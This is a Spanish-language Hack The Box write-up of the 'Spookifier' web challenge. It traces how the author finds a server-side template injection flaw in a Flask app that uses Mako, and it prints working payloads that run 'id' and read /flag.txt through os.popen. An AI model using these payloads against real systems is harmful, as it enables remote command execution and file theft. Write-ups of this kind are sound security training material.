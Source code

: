 ```yaml
---
title: Spookifier
description: There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
date: 2025-05-14
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/web_logo.png
categories:
  - Hack The Box
  - Challenges
tags:
  - hack the box
  - ssti
  - arbitrary file read
  - web analysis
  - vulnerability exploitation

---
```

## Web Analysis

El sitio web proporciona una funcionalidad sencilla, permite ingresar texto que luego es transformado a distintos estilos de fuentes.

![](assets/img/htb-writeup-spookifier/spookifier1.png)

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ unzip Spookifier.zip 
```

Descomprimo el archivo proporcionado por el reto para analizar su contenido. A simple vista, parece tratarse de la misma web mostrada en la interfaz, y está implementada en Python.

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ tree web_spookifier 
web_spookifier
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── index.css
│   │   │   │   └── nes.css
│   │   │   └── images
│   │   │       └── vamp.png
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
├── Dockerfile
└── flag.txt
```

Revisando el Dockerfile, confirmo que el archivo `flag.txt` es copiado directamente al directorio raíz.

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ cat web_spookifier/Dockerfile 
...snip...
# Copy flag
COPY flag.txt /flag.txt
...snip...
```

El archivo `main.py` sugiere que la aplicación utiliza Mako Templates como motor de plantillas.

```terminal
/home/kali/Documents/htb/challenges/spookifier:-$ head -3 web_spookifier/challenge/application/main.py
from flask import Flask, jsonify
from application.blueprints.routes import web
from flask_mako import MakoTemplates
```

Teniendo en cuenta esto, realizo una prueba de Server-Side Template Injection específica para Mako. El resultado mostrado por la aplicación es 49, lo cual confirma que la presencia de la vulnerabilidad SSTI.

![](assets/img/htb-writeup-spookifier/spookifier2.png)

---
## Vulnerability Exploitation

Consultando [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/996c83bb4ba054261767cf49f6c5b4d582393cf2/Server%20Side%20Template%20Injection#mako), encuentro referencias útiles para construir una cadena capaz de ejecutar comandos arbitrarios utilizando Mako Templates. Mediante el uso de os.popen, logro explotar la vulnerabilidad SSTI y ejecutar comandos del sistema. 

```python
${self.module.cache.util.os.popen('id').read()}
```

![](assets/img/htb-writeup-spookifier/spookifier3.png)

La vulnerabilidad permite la lectura arbitraria de archivos y la ejecución de comandos. A partir de esto, accedo al contenido de la flag alojada en el directorio raíz.

```python
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![](assets/img/htb-writeup-spookifier/spookifier4.png)

> <a href="https://www.hackthebox.com/achievement/challenge/1521382/413" target="_blank">Spookifier Challenge from Hack The Box has been Pwned</a>
{: .prompt-tip }